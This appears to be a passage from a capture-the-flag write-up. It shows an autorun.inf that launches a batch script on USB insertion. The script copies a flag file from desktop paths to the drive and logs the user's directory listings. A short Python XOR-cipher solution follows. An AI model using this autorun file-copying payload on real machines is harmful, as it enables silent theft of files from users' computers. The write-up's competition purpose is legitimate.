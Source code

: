 ```
[AutoRun]
UseAutoPlay=1
open=pwn.bat
```

Of course we didn't have a Windows XP VM ready, so it was kind of hard to test.
We needed several attempts, for which one of us had to get up and walk to the
computer, plug it in and watch it fail. Too bad we don't know how-to-windows ... In the end we still don't know which one of the copy commands was
the right one, but we got the flag using the following script, so whatever.
¯\_(ツ)_/¯

```
@echo off

echo hmmm

copy "%HOMEPATH%\Desktop\flag.txt"
copy "%HOMEPATH%\Desktop\flag.txt" .
copy "%HOMEPATH%\Desktop\flag.txt" "%CD%"
copy "%HOMEPATH%\Desktop\flag.txt" D:\
copy "C:\Documents and Settings\Administrator\Desktop\flag.txt" D:\
copy "C:\Documents and Settings\CTF\Desktop\flag.txt" D:\

echo "#### CWD" >>listing.log
echo %CD% >>listing.log
dir >>listing.log
echo "#### home/desktop" >> listing.log
cd "%HOMEPATH%"
dir >>D:\listing.log
echo "#### desktop" >> D:\listing.log
cd Desktop
dir >>D:\listing.log

echo "#### users" >> D:\listing.log
cd ..
dir >>D:\listing.log
```

### Simple XOR Cipher

We were given a "pseudo code" description of a simple cipher and the task was to submit the ciphertext. Below is our solution:

```python
"""
key is "iamsobroken"
cipher is hex string
while char at message; do

temp is hex char XOR hex key at index of char MOD key length
append temp to cipher

done
"""

key = "iamsobroken"
message = "I have a bad feeling about Asterix"
cipher = []

for i, m in enumerate(message):
    m = ord(m)
    k = ord(key[(i) % len(key)])
    t = m ^ k
    cipher.append(t)
```